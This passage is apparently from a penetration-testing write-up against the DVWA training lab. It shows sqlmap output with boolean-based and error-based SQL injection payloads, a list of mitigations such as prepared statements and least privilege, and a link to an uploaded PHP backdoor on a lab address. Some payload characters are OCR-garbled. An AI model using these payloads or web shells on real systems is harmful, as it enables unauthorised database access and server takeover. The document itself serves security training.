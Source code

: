 ```ruby
    [15:38:55] [CRITICAL] previous heuristics detected that the target is protected by some kind of WAF/IPS sqlmap resumed the following injection points) from stored session:
    Parameter: id (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT -
    MySQL comment)
    Payload: id=asd' OR NOT 8493=8493#&Submit=Submit
    Type: error-based
    Title: MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)
    Payload: id=asd' OR ROW(7330,8127)>(SELECT COUNT(*),CONCAT(0×7176706271,(SELECT (ELT(7330=7330,1)), 0x7171716a71,FLOOR(RAND(0)*2)xFROM (SELECT 3724 UNION SELECT 9221 UNION SELECT 8114 UNION SELECT 3905)a GROUP BY ×) -- dVJB&Submit=Submit
```

- Use Prepared Statements or Parameterized Queries: Prepared Statements or Parameterized Queries are a secure way to handle SQL queries in code. They separate the SQL query from the user input and automatically escape any special characters, preventing SQL injection attacks.
- Sanitize User Input: Before using user input in SQL queries, validate and sanitize it to ensure it contains only expected characters. For example, if the user is supposed to input an integer, make sure the input is indeed an integer before using it in a query.
- Implement Proper Access Controls: Ensure users have the least privilege necessary to perform their tasks. Avoid using a generic database user with high benefits for application access. Instead, create separate database users with limited benefits based on the specific operations they need to perform. For example, suppose the application only needs to read data from a table. In that case, the database user used by the application should have only read permissions on that table and not write or delete permissions.
- Keep Software Up to Date: Regularly update your web server, database server, and all software used in your application, including PHP, Apache, and MySQL, to their latest versions. This helps to patch known security vulnerabilities and protect against known attacks.
- Implement Web Application Firewall (WAF): WAF can help detect and block suspicious or malicious requests, including SQL injection attacks. Configure your WAF to filter and block SQL injection attempts based on predefined or custom rules tailored to your application.
- Enable Error Reporting and Logging: Enable error reporting and logging in your application to capture and monitor any SQL errors or unexpected behaviors. Review logs regularly to identify and fix any potential security issues.
- Follow Principle of Least Privilege: Limit the permissions and privileges of the database user used by the application to the minimum necessary to perform its intended functions. Avoid using a superuser or highly privileged database user for routine application tasks.
- Use Secure Password Storage: Store passwords securely using robust hashing algorithms with salts. Avoid storing plain text passwords in the database. Use established password storage best practices, such as bcrypt, to protect passwords from being easily cracked.

### Cross-Site Scripting
 
<img width="521" alt="Screenshot 2024-07-04 at 3 53 52 PM" src="https://github.com/gabizzle/Penetration-Testing/assets/67624149/a2d4f138-fa41-43ac-86db-167cdd7b1546">

<img width="527" alt="Screenshot 2024-07-04 at 3 54 03 PM" src="https://github.com/gabizzle/Penetration-Testing/assets/67624149/16247b0c-6ea5-4b6c-bae5-43d7e5852b74">

- http://192.168.1.22/dvwa/hackable/uploads/php-backdoor.php. The page allows the user to interact with the system through various options.

